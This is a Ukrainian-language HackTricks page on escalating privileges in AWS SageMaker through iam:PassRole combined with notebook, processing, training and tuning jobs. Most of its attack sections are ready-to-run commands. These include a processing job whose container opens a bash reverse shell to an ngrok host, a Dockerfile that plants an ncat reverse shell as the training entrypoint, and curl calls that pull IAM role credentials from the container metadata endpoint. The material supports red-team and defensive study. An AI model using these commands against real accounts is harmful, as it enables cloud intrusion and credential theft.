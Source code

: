# AWS - Привілеї в Sagemaker

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub.**

</details>

## `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Почніть створення ноутбука з ролью IAM для доступу до нього:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Відповідь повинна містити поле `NotebookInstanceArn`, в якому буде міститися ARN новоствореного екземпляру ноутбука. Після цього ми можемо використати API `create-presigned-notebook-instance-url` для генерації URL, за допомогою якого ми зможемо отримати доступ до екземпляру ноутбука, як тільки він буде готовий:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Перейдіть за посиланням у браузері та клацніть на `Open JupyterLab` у верхньому правому куті, потім прокрутіть до вкладки "Launcher" та під розділом "Інше" клацніть кнопку "Terminal".

Тепер можливий доступ до метаданих облікових даних ролі IAM.

**Потенційний вплив:** Підвищення привілеїв до вказаної ролі сервісу sagemaker.

## `sagemaker:CreatePresignedNotebookInstanceUrl`

Якщо на ньому вже запущені Jupyter **нотатники** і ви можете перелічити їх за допомогою `sagemaker:ListNotebookInstances` (або виявити їх будь-яким іншим способом). Ви можете **створити для них URL, отримати до них доступ та вкрасти облікові дані, як вказано в попередній техніці**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Потенційний вплив:** Підвищення привілеїв до ролі сервісу sagemaker, приєднаної.

## `sagemaker:CreateProcessingJob,iam:PassRole`

Атакувальник з цими дозволами може змусити **sagemaker виконати обробку завдання** з приєднаною до нього роллю sagemaker. Атакувальник може вказати визначення контейнера, який буде запущений в **екземплярі облікового запису AWS managed ECS**, та **викрасти облікові дані приєднаної ролі IAM**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Потенційний вплив:** Підвищення привілеїв до вказаної ролі сервісу sagemaker.

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

Атакуючий з цими дозволами зможе створити навчальне завдання, **запустивши довільний контейнер** на ньому з **прикріпленою роллю**. Отже, атакуючий зможе вкрасти облікові дані ролі.

{% hint style="warning" %}
Цей сценарій складніше експлуатувати, ніж попередній, оскільки потрібно створити образ Docker, який буде надсилати оболонку rev або облікові дані безпосередньо атакуючому (ви не можете вказати початкову команду в конфігурації навчального завдання).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Потенційний вплив:** Підвищення привілеїв до вказаної ролі сервісу sagemaker.

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Зловмисник з цими дозволами (потенційно) зможе створити **роботу з налаштуванням гіперпараметрів**, **запустити довільний контейнер** на ньому з **прикріпленою роллю**.\
_Я не використовував це через відсутність часу, але виглядає схоже на попередні вразливості, не соромтеся надсилати PR з деталями експлуатації._

# Посилання
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану в HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>

